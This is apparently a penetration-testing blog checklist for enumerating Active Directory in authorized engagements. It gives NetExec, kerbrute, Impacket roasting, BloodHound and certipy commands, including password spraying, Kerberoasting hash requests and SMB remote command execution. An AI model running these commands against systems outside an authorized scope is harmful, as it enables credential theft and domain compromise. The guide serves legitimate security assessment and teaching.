

## TL;DR

Active Directory enumeration should answer three questions before exploitation: **what exists, what can I authenticate to, and which paths matter most?** Use this checklist only in an authorized lab or assessment. Start with low-impact discovery, check account lockout policy, then expand into credential validation, BloodHound, AD CS, and service-specific checks.

| Phase | Goal | Example Command |
|---|---|---|
| Scope | Record domain, DCs, target ranges | `printf '%s\n' corp.local dc01.corp.local 10.10.10.10` |
| Ports | Find AD-facing services | `nmap -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,5986,1433 --open -iL targets.txt` |
| SMB | Host and signing map | `nxc smb targets.txt` |
| Policy | Confirm lockout rules | `nxc smb <DC_IP> -u '<USER>' -p '<PASS>' --pass-pol` |
| LDAP | Users, groups, domain SID | `nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --users --groups --get-sid` |
| Kerberos | Usernames and roastable accounts | `kerbrute userenum --dc <DC_IP> -d <DOMAIN> users.txt` |
| BloodHound | Graph attack paths | `bloodhound-python -u '<USER>' -p '<PASS>' -d <DOMAIN> -ns <DC_IP> -c All` |
| AD CS | Certificate services exposure | `certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -stdout` |
| WinRM | Remote management access | `nxc winrm targets.txt -u '<USER>' -p '<PASS>'` |
| MSSQL | Database footholds | `nxc mssql targets.txt -u '<USER>' -p '<PASS>'` |

---

## Enumeration Flow



---

## Step 1: Confirm Scope and Naming

Before collecting anything, write down the domain names, domain controllers, target ranges, allowed protocols, test windows, and lockout constraints. Most Active Directory mistakes happen because the operator starts spraying or running modules before understanding the environment.

| Item | Evidence to Save |
|---|---|
| Domain FQDN | `corp.local`, `child.corp.local` |
| NetBIOS name | `CORP` |
| Domain controllers | Hostname, IP, site if known |
| Target ranges | In-scope CIDR blocks and exclusions |
| Allowed auth tests | Password spray, hash auth, Kerberos, WinRM, MSSQL |
| Lockout policy | Threshold, reset window, observation window |

---

## Step 2: Find AD-Facing Services

Use a focused port list first. Full scans can wait until you know which hosts matter.

```bash
nmap -Pn -n -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,5986,1433 --open -iL targets.txt -oA scans/ad-core
```

| Port | Service | Why It Matters |
|---|---|---|
| 53 | DNS | Domain discovery and DC resolution |
| 88 / 464 | Kerberos | User validation, roasting, ticket workflows |
| 135 / 593 | RPC | Endpoint mapping, coercion surface, remote management context |
| 389 / 636 | LDAP / LDAPS | Directory enumeration and ACL context |
| 445 | SMB | Host inventory, shares, signing, admin checks |
| 3268 / 3269 | Global Catalog | Forest-wide LDAP queries |
| 5985 / 5986 | WinRM | Remote management access |
| 1433 | MSSQL | Database footholds and linked server paths |

---

## Step 3: SMB Inventory and Signing

SMB gives a fast host map and helps identify relay risk. Start unauthenticated or with guest only when allowed, then move to authenticated enumeration.

```bash
nxc smb targets.txt
```

```bash
nxc smb targets.txt --gen-relay-list no_signing_hosts.txt
```

Save these findings:

| Finding | Why It Matters |
|---|---|
| Domain joined hosts | Confirms where AD auth is accepted |
| OS and build | Helps prioritize patch and technique checks |
| SMB signing disabled | Relay risk and remediation priority |
| Guest access | Often exposes shares or RID brute possibilities |
| Local admin marker | Indicates possible lateral movement foothold |

---

## Step 4: Check Password and Lockout Policy

Do this before any spray. If you cannot confirm policy, use the most conservative assumptions and avoid broad authentication attempts.

```bash
nxc smb <DC_IP> -u '<USER>' -p '<PASS>' --pass-pol
```

Example low-risk spray shape:

```bash
nxc smb targets.txt -u users.txt -p '<ONE_PASSWORD>' --gfail-limit 5 --ufail-limit 2 --fail-limit 3 --jitter 2
```

Do not combine large user lists with large password lists unless the rules of engagement explicitly allow it.

---

## Step 5: SMB Enumeration with Valid Credentials

Once a credential is valid, collect practical information that changes your next step.

```bash
nxc smb targets.txt -u '<USER>' -p '<PASS>' --shares
```

```bash
nxc smb <DC_IP> -u '<USER>' -p '<PASS>' --users
```

```bash
nxc smb <DC_IP> -u '<USER>' -p '<PASS>' --groups 'Domain Admins'
```

```bash
nxc smb targets.txt -u '<USER>' -p '<PASS>' --continue-on-success
```

What to look for:

| Signal | Follow-up |
|---|---|
| Readable `SYSVOL` | Look for policy scripts and legacy credential artifacts |
| Readable custom shares | Search for configs, scripts, backups, and deployment files |
| `Pwn3d!` or admin markers | Validate command execution carefully |
| Many failed auth events | Stop and reassess limits |

---

## Step 6: LDAP Enumeration

LDAP gives cleaner domain-level data than host-by-host SMB. Use it to understand users, groups, computers, OUs, domain SID, and domain controllers.

```bash
nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --users --groups --dc-list --get-sid
```

```bash
nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --computers
```

```bash
nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --password-not-required
```

```bash
nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --trusted-for-delegation
```

Save group names, privileged users, service accounts, delegation flags, and any account description fields that contain operational hints.

---

## Step 7: Kerberos Checks

Kerberos enumeration often reveals username validity, roastable accounts, and ticket-based paths.

```bash
kerbrute userenum --dc <DC_IP> -d <DOMAIN> users.txt
```

```bash
GetNPUsers.py <DOMAIN>/ -usersfile users.txt -dc-ip <DC_IP> -no-pass
```

```bash
GetUserSPNs.py <DOMAIN>/<USER>:'<PASS>' -dc-ip <DC_IP> -request -outputfile kerberoast_hashes.txt
```

Use these outputs as evidence of configuration risk, not as a reason to spray aggressively.

Related deep dives:

- [GetNPUsers.py — Deep Dive](/en/posts/tech-getnpusers-asrep-roasting/)
- [GetUserSPNs.py — Deep Dive](/en/posts/tech-getuserspns-kerberoasting/)
- [Kerberos Attack Techniques for OSCP](/en/posts/tech-kerberos-oscp-guide/)

---

## Step 8: BloodHound Collection

BloodHound turns enumeration into graph paths. Collect only what is allowed by scope and label the collection time in your notes.

```bash
bloodhound-python -u '<USER>' -p '<PASS>' -d <DOMAIN> -ns <DC_IP> -c All
```

```bash
nxc ldap <DC_IP> -u '<USER>' -p '<PASS>' --bloodhound -c All
```

Prioritize paths that are both exploitable and meaningful to the business:

| Path Type | Why It Matters |
|---|---|
| `GenericAll` / `GenericWrite` | Direct object control or credential abuse path |
| `AddMember` | Group escalation |
| `ForceChangePassword` | Account takeover path |
| `CanPSRemote` | WinRM lateral movement |
| `AdminTo` | Local admin spread |
| `AllowedToDelegate` | Kerberos delegation risk |
| AD CS edges | Certificate-based escalation |

---

## Step 9: AD CS Discovery

Certificate Services can create high-impact escalation paths. Check for enrollment rights, vulnerable templates, ESC8, and dangerous manager approval settings.

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -stdout
```

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -enabled -json
```

Related articles:

- [AD CS Attack Notes — ESC1-ESC16 Summary](/en/posts/tech-adcs-esc-attack-guide/)
- [Certipy AD CS Attack Guide](/en/posts/tech-certipy-adcs-attack/)

---

## Step 10: Remote Management and Lateral Movement Checks

Validate management protocols separately from credential validity. A password can be correct without WinRM, SMB exec, or MSSQL access.

```bash
nxc winrm targets.txt -u '<USER>' -p '<PASS>'
```

```bash
nxc smb targets.txt -u '<USER>' -p '<PASS>' -x 'whoami'
```

```bash
nxc mssql targets.txt -u '<USER>' -p '<PASS>'
```

If you obtain admin or replication rights, move to controlled evidence collection:

- [secretsdump.py Guide](/en/posts/tech-secretsdump-guide/)
- [Mimikatz Commands Cheatsheet](/en/posts/tech-mimikatz-guide/)
- [Lateral Movement — OSCP Summary](/en/posts/tech-lateral-movement-guide/)

---

## Reporting Checklist

For every finding, save enough context that the defensive team can reproduce and fix it.

| Evidence | Example |
|---|---|
| Time and source | Operator host, timestamp, command |
| Target | Hostname, IP, domain, OU if known |
| Account context | User, group, privilege level |
| Proof | Minimal output, screenshot, BloodHound path, or command result |
| Impact | What the access enables |
| Fix | Policy, ACL, template, delegation, password, or monitoring change |

---

## Related Articles

- [Active Directory Pentest Roadmap](/en/topics/active-directory/)
- [NetExec Commands Cheatsheet](/en/posts/tech-netexec-beginner-guide/)
- [BloodHound Attack Path Cheatsheet](/en/posts/tech-bloodhound-attack-paths/)
- [ntlmrelayx.py — Deep Dive](/en/posts/tech-ntlmrelayx-attack-guide/)
- [RBCD Attack Guide](/en/posts/tech-rbcd-attack-guide/)
- [secretsdump.py Guide](/en/posts/tech-secretsdump-guide/)
- [Mimikatz Commands Cheatsheet](/en/posts/tech-mimikatz-guide/)
